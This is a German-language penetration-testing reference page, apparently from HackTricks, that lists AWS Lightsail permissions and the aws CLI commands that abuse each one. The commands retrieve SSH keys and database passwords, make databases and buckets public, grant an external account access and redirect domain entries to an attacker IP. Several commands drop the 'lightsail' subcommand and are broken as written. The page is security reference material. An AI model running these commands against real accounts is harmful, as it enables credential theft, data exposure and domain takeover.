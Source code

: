 # AWS - Lightsail Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Lightsail

Für weitere Informationen zu Lightsail siehe:

{{#ref}}
../../aws-services/aws-lightsail-enum.md
{{#endref}}

> [!WARNING]
> Es ist wichtig zu beachten, dass Lightsail **doesn’t use IAM roles belonging to the user** sondern einem von AWS verwalteten Konto zugeordnet ist, daher können Sie diesen Dienst nicht für privesc missbrauchen. Allerdings könnten in diesem Dienst **sensitive data** wie code, API keys und database info gefunden werden.

### `lightsail:DownloadDefaultKeyPair`

Diese Berechtigung ermöglicht es Ihnen, die SSH keys zu erhalten, um auf die instances zuzugreifen:
```
aws lightsail download-default-key-pair
```
**Mögliche Auswirkung:** Sensible Informationen innerhalb der Instanzen finden.

### `lightsail:GetInstanceAccessDetails`

Diese Berechtigung ermöglicht es, SSH-Schlüssel zu erzeugen, um auf die Instanzen zuzugreifen:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Mögliche Auswirkungen:** Sensible Informationen innerhalb der Instanzen finden.

### `lightsail:CreateBucketAccessKey`

Mit dieser Berechtigung können Sie einen Schlüssel erhalten, um auf den bucket zuzugreifen:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Mögliche Auswirkung:** Sensible Informationen im Bucket finden.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Diese Berechtigung erlaubt es Ihnen, die Zugangsdaten zu erhalten, um auf die Datenbank zuzugreifen:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Mögliche Auswirkungen:** Sensible Informationen in der Datenbank finden.

### `lightsail:UpdateRelationalDatabase`

Diese Berechtigung ermöglicht es Ihnen, das Passwort für den Zugriff auf die Datenbank zu ändern:
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
Wenn die Datenbank nicht öffentlich ist, könntest du sie auch mit diesen Berechtigungen öffentlich machen mit
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
**Mögliche Auswirkungen:** Zugriff auf sensible Informationen in der Datenbank.

### `lightsail:OpenInstancePublicPorts`

Diese Berechtigung erlaubt das Öffnen von Ports zum Internet
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Potentielle Auswirkung:** Zugriff auf sensible Ports.

### `lightsail:PutInstancePublicPorts`

Diese Berechtigung erlaubt das Öffnen von Ports ins Internet. Beachte, dass der Aufruf alle geöffneten Ports schließt, die darin nicht angegeben sind.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Mögliche Auswirkung:** Zugriff auf sensible Ports.

### `lightsail:SetResourceAccessForBucket`

Diese Berechtigung ermöglicht es, einer Instanz Zugriff auf einen Bucket zu gewähren, ohne zusätzliche Anmeldeinformationen.
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
**Mögliche Auswirkungen:** Potenziell neuer Zugriff auf buckets mit sensiblen Informationen.

### `lightsail:UpdateBucket`

Mit dieser Berechtigung könnte ein Angreifer seinem eigenen AWS-Konto Lesezugriff auf buckets gewähren oder die buckets sogar für alle öffentlich machen:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Mögliche Auswirkungen:** Möglicher neuer Zugriff auf buckets mit sensiblen Informationen.

### `lightsail:UpdateContainerService`

Mit dieser Berechtigung könnte ein Angreifer dem Containers-Service Zugriff auf private ECRs gewähren.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Mögliche Auswirkungen:** Sensible Informationen aus einem privaten ECR abrufen

### `lightsail:CreateDomainEntry`

Ein Angreifer mit dieser Berechtigung könnte eine Subdomain erstellen und sie auf seine eigene IP-Adresse verweisen (subdomain takeover), oder einen SPF-Eintrag erstellen, der es ihm erlaubt, E-Mails von der Domain zu spoofen, oder sogar die Hauptdomain auf seine eigene IP-Adresse setzen.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potential Impact:** Übernahme einer Domain

### `lightsail:UpdateDomainEntry`

Ein Angreifer mit dieser Berechtigung könnte eine Subdomain erstellen und sie auf seine eigene IP-Adresse zeigen (subdomain takeover), oder einen SPF record erstellen, der ihm erlaubt, spoof emails von der Domain zu verschicken, oder sogar die Hauptdomain auf seine eigene IP-Adresse zu setzen.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Mögliche Auswirkung:** Übernahme einer Domain

{{#include ../../../../banners/hacktricks-training.md}}
